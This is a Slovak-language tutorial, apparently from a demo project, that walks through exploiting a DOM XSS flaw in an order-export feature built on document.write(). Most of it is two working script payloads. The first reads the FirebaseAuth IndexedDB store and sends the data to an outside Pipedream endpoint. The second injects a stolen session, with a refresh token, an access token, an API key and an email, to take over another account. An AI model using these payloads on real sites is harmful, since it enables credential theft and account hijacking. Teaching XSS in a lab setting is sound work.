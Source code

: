 # Document objcet model cross site scripting (DOM XSS)

- Teraz si predstavíme DOM XSS na príklade vygenerovania exportu objednávky do novéhe tabu prehliadača pomocou metódy document.write().
- Metóda document.write() prepisuje celú kostru stránky a generuje novú pomocou argumentu vloženého do metódy. Týmto spôsobom sa dajú jednoducho a automatizovane generovať nové stránky alebo upravovať už existujúce.
- Problém nastáva, keď sa do argumentu vloží vrátane rôznych tagov aj škodlivý kód. Škodlivý kód je priamo vložený do tela stránky.
- Ako môžeme vidieť v testovacom prostredí, tak obrayovka obsahuje input kam zapisujeme názov exportu našej objednávky a tlačidlo na vygenerovanie exportu.
- Ako prvé sa presunieme na podstránku produktov a vložíme ľubovoľné produkty do košíka.
- Keď máme košík naplnený produktami môžeme zmeniť alebo ponechať názov exportu a kliknúť na tlačidlo “Export”.
- Vygeneroval sa nám jednoduchý export objednávky na novom tabe. Ako môžeme vidieť názov exportu je vpísaný ako nadpis nad jednotlivými položkami košíka. Hodnota z inputu je priamo vložené do 
  tela novej stránky čím vzniká zraniteľnosť a priestor na vloženie škodlivého kódu.
- Zopakujme si proces generovania exportu ale teraz vložíme škodlivý kód do inputu pre názov exportu.
- Vložme nasledovný úryvok kódu do inputu:
- ```
      <script>
      const request = window.indexedDB.open("firebaseLocalStorageDb");
      request.onsuccess = (event) => {
        const db = event.target.result;

        const transaction = db.transaction(["firebaseLocalStorage"], "readonly");
        const objectStore = transaction.objectStore("firebaseLocalStorage");

        const getDataRequest = objectStore.getAll();

        getDataRequest.onsuccess = (event) => {

        const headers = new Headers();
        headers.append("Content-Type", "text/plain");

        const options = {
          method: "POST",
          headers,
          mode: "cors",
          body: JSON.stringify(event.target.result),
        };

        fetch("https://eojph9o2kgja7k2.m.pipedream.net", options);
        }
      };
      </script>
- Ukážkový kód sprístupní lokálnu databázu prehliadača (indexDB), ktorú autentifikačný servis FirebaseAuth využíva na uchovávanie dát o prihlásenom používateľovi. 
  Vytiahneme dáta z databázy a celý objekt si odošleme na náš vygenerovaný endpoint v službe Pipedream (https://pipedream.com/).
- Po vygenerovaní exportu môžeme vidieť, že názov exportu je prázdny a spustil sa náš škodlivý kód. Na endpoint by nám mal prísť celý objekt s dátami.
- Odhlásime sa z aplikácie a opätovne sa prihlásisme pod iným účtom, buď existujúcim alebo si vytvoríme nový.
- Po prihlásení využijeme spomínanú zraniteľnosť znova a vložíme do lokálnej databázy dáta užívateľa, čím prelomíme autentifikáciu a prihlásime sa do iného účtu.
- Kód na vloženie používateľských dať vyzerá nasledovne:
     ```<script>
      const request = window.indexedDB.open("firebaseLocalStorageDb");
      request.onsuccess = (event) => {
        const db = event.target.result;

        const transaction = db.transaction(["firebaseLocalStorage"], "readwrite");
        const objectStore = transaction.objectStore("firebaseLocalStorage");

        const data = {
          fbase_key:
            "firebase:authUser:AIzaSyCx_Vvo5GYYtbjFgSm0GtQv7TWb6mrAZWg:[DEFAULT]",
          value: {
            uid: "RTejhfCWw0OAlHcoAj41Fy93ZJJ3",
            email: "mate@gmail.com",
            emailVerified: false,
            isAnonymous: false,
            providerData: [
              {
                providerId: "password",
                uid: "mate@gmail.com",
                displayName: null,
                email: "mate@gmail.com",
                phoneNumber: null,
                photoURL: null,
              },
            ],
            stsTokenManager: {
              refreshToken:
                "AMf-vByIsfsiw-8vT6jzvFkIqMjZhSvTzJ16dCdww3w_Pk_9kwwfanAaW09W-DWc70KzKjxtp7Dq7aEPRImKkgLIHiCN4ROLsi5NBpvQrRSNGonNI-5wt_
                  9PHITM0bt5ZXSayEMzx7dRUHJdj8-lbwiflyUREJh3TUy-QLmoxyg3rY-G6B1Ff1OQPTv-VRFJGmp3GQ2dJ5Bl0hyBKiELNwcjKDTrVyRjPw",
              accessToken:
                "eyJhbGciOiJSUzI1NiIsImtpZCI6ImJhNjI1OTZmNTJmNTJlZDQ0MDQ5Mzk2YmU3ZGYzNGQyYzY0ZjQ1M2UiLCJ0eXAiOiJKV1QifQ
    .eyJpc3MiOiJodHRwczovL3NlY3VyZXRva2VuLmdvb2dsZS5jb20vZGlwbG9tb3ZrYS10ZXN0LWFwcCIsImF1ZCI6ImRpcGxvbW92a2EtdGVzdC1hcHA
    iLCJhdXRoX3RpbWUiOjE3MTE3OTA0OTYsInVzZXJfaWQiOiJSVGVqaGZDV3cwT0FsSGNvQWo0MUZ5OTNaSkozIiwic3ViIjoiUlRlamhmQ1d3ME9BbE
    hjb0FqNDFGeTkzWkpKMyIsImlhdCI6MTcxMTc5MDQ5NiwiZXhwIjoxNzExNzk0MDk2LCJlbWFpbCI6Im1hdGVAZ21haWwuY29tIiwiZW1haWxfdmVyaWZ
    pZWQiOmZhbHNlLCJmaXJlYmFzZSI6eyJpZGVudGl0aWVzIjp7ImVtYWlsIjpbIm1hdGVAZ21haWwuY29tIl19LCJzaWduX2luX3Byb3ZpZGVyIjoicGFzc
    3dvcmQifX0.0Mp-T84dmzTpiAdVyhl68WV2qDvTZ78IHGYca5YpBgBx4A_m_YXoJ-IYBaTl-Yp-fXYzuKN3Vff0iqkNA5nVtUcOFfG1X157DrkE80gxp6e
    7ELg2jn_N6mF1Xw-jTSaJoAAsG8f3e_wHp-cfVqWyBNrcUTABrP8Hy_bv-iyUII60PZtjiu_oo7ObVFhoPEim82rlPJDLiwpPMos7qGEBsvw4-fKQvLPkR
    wkGbCf8bKt6Pn_jThtR9JPuhU_G2SlgppA0PuuLSyO8KViFoH4XgFMi9kyX3YU8vmg7O5bDwCYemLLpvQt4KY900_qQgxS2GnX89h_V-hNu_bGqQpL9Zg",
              expirationTime: 1711794096425,
            },
            createdAt: "1711388904315",
            lastLoginAt: "1711790496471",
            apiKey: "AIzaSyCx_Vvo5GYYtbjFgSm0GtQv7TWb6mrAZWg",
            appName: "[DEFAULT]",
          },
        };

        objectStore.clear();

        const addDataRequest = objectStore.add(data);

        addDataRequest.onsuccess = (event) => alert("Success!");
      };
    </script>

- Teraz môžeme refreshnut stránku a ako môžeme vidieť v hlavičke stránky alebo po kliku na profil, že sme prihlásený pod iným účtom.